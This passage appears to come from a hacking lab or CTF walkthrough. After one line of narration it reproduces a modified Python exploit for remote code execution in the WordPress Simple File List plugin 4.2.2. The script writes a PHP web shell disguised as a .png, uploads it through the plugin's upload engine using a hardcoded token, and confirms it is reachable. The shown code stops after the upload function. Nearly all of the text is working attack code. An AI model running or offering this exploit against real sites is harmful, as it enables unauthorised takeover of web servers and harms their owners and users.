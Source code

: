 ![sitescreenshot](https://i.imgur.com/UyqkEtB.png)

Next I exploited the vulnerability with a modified exploit script I found on Github, which was written in python.


```python

# Exploit Title: Wordpress Plugin Simple File List 4.2.2 - Remote Code Execution
# Date: 2020-04-19
# Original Exploit Author: coiffeur
# Modified Exploit Author: hermh4cks
# Vendor Homepage: https://simplefilelist.com/
# Software Link: https://wordpress.org/plugins/simple-file-list/
# Version: Wordpress Simple File List <= v4.2.2

import requests
import random
import hashlib
import sys
import os
import urllib3
urllib3.disable_warnings()

dir_path = '/wp-content/uploads/simple-file-list/'
upload_path = '/wp-content/plugins/simple-file-list/ee-upload-engine.php'
move_path = '/wp-content/plugins/simple-file-list/ee-file-engine.php'
password = 0

def usage():
    banner = """
NAME: Wordpress v5.4 Simple File List v4.2.2, pre-auth RCE
SYNOPSIS: python wp_simple_file_list_4.2.2.py <URL>
AUTHOR: coiffeur
Edited By:HermH4cks
Note: This is an update to the original exploit by coiffeur to use a GET command without the POST and password options
    """
    print(banner)


def generate():
    filename = f'{random.randint(0, 10000)}.png'
    with open(f'{filename}', 'wb') as f:
        payload = "<?php system($_GET['cmd']);?>"
        f.write(payload.encode())
    print(f'[ ] File {filename}')
    return filename


def upload(url, filename):
    files = {'file': (filename, open(filename, 'rb'), 'image/png')}
    datas = {'eeSFL_ID': 1, 'eeSFL_FileUploadDir': dir_path,
             'eeSFL_Timestamp': 1587258885, 'eeSFL_Token': 'ba288252629a5399759b6fde1e205bc2'}
    r = requests.post(url=f'{url}{upload_path}',
                      data=datas, files=files, verify=False)
    r = requests.get(url=f'{url}{dir_path}{filename}', verify=False)
    if r.status_code == 200:
        print(f'[ ] File uploaded at {url}{dir_path}{filename}')
        os.remove(filename)
    else:
        print(f'[*] Failed to upload {filename}')
        exit(-1)
    return filename
```